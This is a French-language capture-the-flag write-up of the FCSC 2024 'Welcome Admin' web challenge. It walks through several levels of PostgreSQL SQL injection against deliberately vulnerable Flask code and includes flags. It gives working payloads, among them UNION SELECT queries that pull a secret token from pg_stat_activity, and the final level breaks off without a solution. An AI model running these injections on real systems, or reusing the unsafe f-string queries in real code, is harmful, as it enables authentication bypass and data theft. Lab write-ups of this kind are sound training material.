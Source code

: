 ## Description

Au coeur d’un réseau labyrinthique, là où la lumière des écrans peine à éclairer les recoins les plus sombres, une demande spéciale est lancée dans les abîmes, un appel discret, attendu seulement par ceux qui connaissent les profondeurs. Seul un véritable expert pourra répondre à l’appel, cryptiquement formulé : “Un expert en SQL est demandé à la caisse numéro 3.”

Cette épreuve a été découpée en deux parties :

- [Welcome Admin 1/2](https://hackropole.fr/fr/challenges/web/fcsc2024-web-welcome-admin-1/).
- [Welcome Admin 2/2](https://hackropole.fr/fr/challenges/web/fcsc2024-web-welcome-admin-2/).

## Write-Up

### Level 1
C'était une injection SQL Classique pour la partie 1 :
![[Pasted image 20250221103134.png]]

FCSC{94738150696e2903c924f0079bd95cd8256c648314654f32d6aaa090846a8af5}

On regardant le code python, on vient de passer le niveau 1 mais pour avoir le deuxième flag, il va falloir qu'on passe 4 autres niveaux ! Chacun avec son injection SQL propre à lui, et ces spécificités.

### Level 2
On voit que cette fois c'est une fonction dans plpgsql qui est utilisé :
```python
CREATE FUNCTION check_password(_password text) RETURNS text
    AS $$
        BEGIN
            IF _password = '{token}' THEN
                RETURN _password;
            END IF;
            RETURN 'nope';
        END;
    $$
    IMMUTABLE LANGUAGE plpgsql;
```

Bingo :
![[Pasted image 20250221104947.png]]

### Level 3

```python
@app.route("/super-admin", methods=["GET", "POST"])
@login_for(Rank.SUPER_ADMIN, Rank.HYPER_ADMIN, "/hyper-admin")

def level3(cursor: cursor, password: str):
    token = os.urandom(16).hex()
    cursor.execute(f"SELECT '{token}', '{password}';")
    row = cursor.fetchone()
    if not row:
        return False
    if len(row) != 2:
        return False
    return row[1] == token
```

Bon de ce qu'on voit ici, le token est inclus directement dans la requête SQL, bon il faut faire un peu de recherche mais on pourrait aller chopper la valeur direct dans les requêts SQL en cours d'exécution : 
https://stackoverflow.com/questions/12641676/how-to-get-a-status-of-a-running-query-in-postgresql-database

Bingo, la table s'appelle pg_stat_activity, bon si on reprend notre SQL ça devrait donner un truc dans le genre :
```sql
select query FROM pg_stat_activity where query like 'SELECT ''%' order by 1 limit 1
```

Plus qu'à couper la requête pour extraire ce qu'on souhaite : 
```sql
SUBSTR((select query FROM pg_stat_activity where query like 'SELECT ''%' order by 1 ASC  limit 1), 9, 32)
```

Sauf que ça ne marchera pas comme ça, on refait la même requête :
```sql
union select SUBSTR((select query FROM pg_stat_activity where query like 'SELECT ''%' order by 1 ASC  limit 1), 9, 32), SUBSTR((select query FROM pg_stat_activity where query like 'SELECT ''%' order by 1 ASC  limit 1), 9, 32) order by 2 DESC limit 1 --
```

Et voilà : 
![[Pasted image 20250221105901.png]]

### Level 4

Ici  c'est la cata, ça renvoie un md5 aléatoire et le mot de passe qu'on envoie:
```python
@app.route("/hyper-admin", methods=["GET", "POST"])
@login_for(Rank.HYPER_ADMIN, Rank.TURBO_ADMIN, "/turbo-admin")
def level4(cursor: cursor, password: str):
    cursor.execute(f"""SELECT md5(random()::text), '{password}';""")
    row = cursor.fetchone()
        if not row:
        return False
    if len(row) != 2:
        return False
    return row[0] == row[1]
```

Mais pas tant car on peut se baser sur la même requête union de tout à l'heure mais en faisant plus simple :
```sql
' union select '1', '1' order by 2 DESC limit 1 --
```

Bingo :
![[Pasted image 20250221110203.png]]

### Level 5

Le level finale !! :
```python
def level5(cursor: cursor, password: str):
    table_name = "table_" + os.urandom(16).hex()
    col_name = "col_" + os.urandom(16).hex()
    token = os.urandom(16).hex()
    cursor.execute(
        f"""
        CREATE TABLE "{table_name}" (
          id serial PRIMARY KEY,
          "{col_name}" text
        );  
        INSERT INTO "{table_name}"("{col_name}") VALUES ('{token}');
        """
    )
    cursor.execute(f"SELECT '{password}';")
    row = cursor.fetchone()
    print(row)
    if not row:
        return False
    if len(row) != 1:
        return False
    return row[0] == token
```

